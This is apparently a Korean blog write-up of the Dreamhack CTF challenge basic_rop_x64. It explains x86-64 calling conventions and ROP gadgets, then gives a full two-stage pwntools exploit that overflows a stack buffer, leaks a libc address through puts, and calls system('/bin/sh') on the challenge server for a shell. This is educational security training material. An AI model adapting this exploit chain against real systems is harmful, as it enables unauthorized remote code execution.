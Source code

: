 ```yaml
---
published: true
image: /img
layout: post
title: Dreamhack 시스템 해킹 basic_rop_x64
tags: [Dreamhack, pwnable, ctf, writeup]
math: true
date: 2022-05-21 21:00
---
```


이번에 풀어볼 문제는 기존의 32비트 환경 pwn이 아니라 64비트 환경 pwn이다. 기본적으로 32비트와 64비트는 함수 호출 규약에 다른점이 있다. 기존 32비트 환경에서는 함수 실행에 필요한 인자들을 스택에 저장해 하나씩 불러와 사용한다면 64비트 환경은 레지스터에 먼저 저장한 후 레지스터보다 많은 인자가 필요하면 스택을 이용한다.

이러한 차이점으로 32비트 환경에서는 버퍼 오버플로우 등으로 덮어 씌우기만 하면 성공했던 시스템 해킹이 64비트로 오면서 gadget(가젯)을 이용해 함수 실행에 필요한 인자를 넣어줘야 한다


이번 문제는 ROP(Return-oriented programming)에 관한 문제이며 이 ROP 기법은 공격자가 실행 공간 보호(NXbit) 및 코드 서명(Code signing)과 같은 보안 방어가있는 상태에서 코드를 실행할 수있게 해주는 기술이다.

우선 위에서 함수에 사용될 인자를 레지스터에 저장하기 위해 가젯이 필요하다고 했다. 가젯을 설명하기 전에 인자에 저장에 사용되는 레지스터 순서를 먼저 살펴보자

```
+----------------------------------------------+
|   인텔 리눅스 64bit    |      윈도우 64bit     |
|                       |                       |
|        RDI            |           RCX         |
|        RSI            |           RDX         |
|        RDX            |           R8          |
|        RCX            |           R9          |
|        R8             |                       | 
|        R9             |                       |
+----------------------------------------------+
```
위 순서대로 레지스터에 값을 저장하며 이에 필요한 명령어 집합을 가젯이라 한다.

예를 들어 puts 함수는 인자를 1개 가지며 RDI에 인자를 넣아야 한다. 이에 사용되는 가젯은 다음과 같다.
```
pop rdi ; ret
```
위 가젯을 이용해 RSP의 값을 POP해 RDI로 넣어주는 과정이다.

이제 문제로 돌아가 문제 코드를 살펴보자.
```c++
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>


void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}


void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

int main(int argc, char *argv[]) {
    char buf[0x40] = {};

    initialize();

    read(0, buf, 0x400);
    write(1, buf, sizeof(buf));

    return 0;
}
```

위와 같은 구조를 가지고 있으며, 0x40 크기의 버퍼에 0x400의 값을 쓸 수 있어 버퍼 오버플로우를 통한 ROP가 가능하다.

우선 gdb의 info function을 통해 내장되어 있는 함수를 보자

```c++
gdb-peda$ info function
All defined functions:

Non-debugging symbols:
0x0000000000400590  _init
0x00000000004005c0  puts@plt
0x00000000004005d0  write@plt
0x00000000004005e0  alarm@plt
0x00000000004005f0  read@plt
0x0000000000400600  __libc_start_main@plt
0x0000000000400610  signal@plt
0x0000000000400620  setvbuf@plt
0x0000000000400630  exit@plt
0x0000000000400640  __gmon_start__@plt
0x0000000000400650  _start
0x0000000000400680  deregister_tm_clones
0x00000000004006c0  register_tm_clones
0x0000000000400700  __do_global_dtors_aux
0x0000000000400720  frame_dummy
0x0000000000400746  alarm_handler
0x000000000040075e  initialize
0x00000000004007ba  main
0x0000000000400820  __libc_csu_init
0x0000000000400890  __libc_csu_fini
0x0000000000400894  _fini
```

write는 인자를 3개 필요로 해 데이터를 출력하는데 puts 함수를 사용할 것이다.

이제 함수를 사용하기 위한 가젯을 찾아야 하는데 ROPgadget --binary basic_rop_x64 | grep rdi 명령어로 가능하다. 결과는 다음과 같다.

```c++
/file# ROPgadget --binary basic_rop_x64 | grep rdi 
0x0000000000400726 : cmp dword ptr [rdi], 0 ; jne 0x400730 ; jmp 0x4006c0
0x0000000000400725 : cmp qword ptr [rdi], 0 ; jne 0x400730 ; jmp 0x4006c0
0x0000000000400883 : pop rdi ; ret
```

우리가 필요로 하는 가젯의 주소는 0x0000000000400883이다.

이제 어떤식으로 익스를 작성할지 고민해보자.
pop명령어는 RSP의 주소에 들어있는 값을 RDI로 불러온다. gdb를 통해 확인해보면, read함수를 실행하는 중 RSP의 값은 ret+8의 주소를 가리키고 있다.

따라서 ret에 가젯 주소를, 그 다음으로 계속 변하는 libcbase의 주소를 구하기 위해 read함수의 got를 출력하기 위해 disas main을 통해 찾은 read@got 값을 넣어준다.

그 다음으로 puts을 실행하기 위해 puts@plt 값을 주어 인자로 준 read@got의 실제 주소를 puts함수를 통해 출력한다. 이후 main함수 주소를 추가해 익스플로잇 작성을 위해 main으로 다시 돌아온다.

스택 구조로 보면 다음과 같다. 스택은 위에서 아래가 아닌 아래 베이스 포인터에서 위로 쌓이는걸 고려해 보아야 한다.

```
puts@plt
read@got
gadget
sfp[8바이트] -> 임의 값
'입력 값'
```

따라서 임의 값으로 0x40 + 0x8(64비트 환경은 ret과 sfp 길이가 8바이트)만큼 sfp영역까지 덮어 씌운다. 다음 가젯 주소를 추가하고 read@got와 puts@plt를 추가한다

여기까지 파이썬 코드로 표현하면 다음과 같다.

```python
from pwn import *

conn = remote("host1.dreamhack.games", 13516);
libc=ELF('./libc.so.6')


rdi_ret = 0x400883  #가젯 주소
read_got = 0x601030
puts_plt = 0x4005c0

func_main = 0x4007ba

payload = b'A'*(0x48)
payload += p64(rdi_ret)
payload += p64(read_got)
payload += p64(puts_plt)
payload += p64(func_main)

conn.send(payload)
sleep(1)

print(conn.recvuntil('A'*0x40))
```

위 코드를 실행하면 puts을 통해 read@got가 출력된 후 다시 main 함수로 돌아온다. 이제 출력된 read@got의 실제 메모리상 주소를 통해 libcbase를 구해보자. read 함수 부분은 다시 공격할 것이다.

문제를 보면 libc.so.6 파일을 같이 첨부해준다.

이를 통해 read@got의 상대주소를 알아내고 출력된 read@got의 실제주소 - 상대주소 를 통해 libc 베이스 주소를 구한다.

다음으로 system 함수를 사용해 /bin/sh를 실행하기 위해 libc에서 system 함수의 상대주소를 구하고 libcbase와 더해 실행중인 프로그램의 메모리 상 system 함수 주소를 구한다.

이후 libc에서 /bin/sh의 문자열 주소를 찾는다.

다음 처음과 마찬가지로 가젯을 통해 systme 함수의 인자로 사용될 /bin/sh의 주소와 system 함수의 주소를 넣어 쉘을 익스 한다.

이 과정을 파이썬 코드로 나타내면 다음과 같다.

```python
from pwn import *

conn = remote("host1.dreamhack.games", 13516);
libc=ELF('./libc.so.6')


rdi_ret = 0x400883
read_got = 0x601030
puts_plt = 0x4005c0

func_main = 0x4007ba

payload = b'A'*(0x48)
payload += p64(rdi_ret)
payload += p64(read_got)
payload += p64(puts_plt)
payload += p64(func_main)


conn.send(payload)

sleep(1)

print(conn.recvuntil('A'*0x40))

leak = u64(conn.recv(6)+b'\x00\x00')
print("leak => "+str(hex(leak)))

libcbase = leak - libc.sym['read']
print("libcbase => "+str(hex(libcbase)))

system = libcbase+libc.sym['system']
print("system => "+str(hex(system)))

binsh = libcbase+list(libc.search(b"/bin/sh"))[0]
print("binsh => "+str(hex(binsh)))

payload2 = b'B'*0x48
payload2 += p64(rdi_ret)
payload2 += p64(binsh)
payload2 += p64(system)

conn.send(payload2)
conn.interactive()
```

위 코드를 통해 flag를 얻을 수 있다.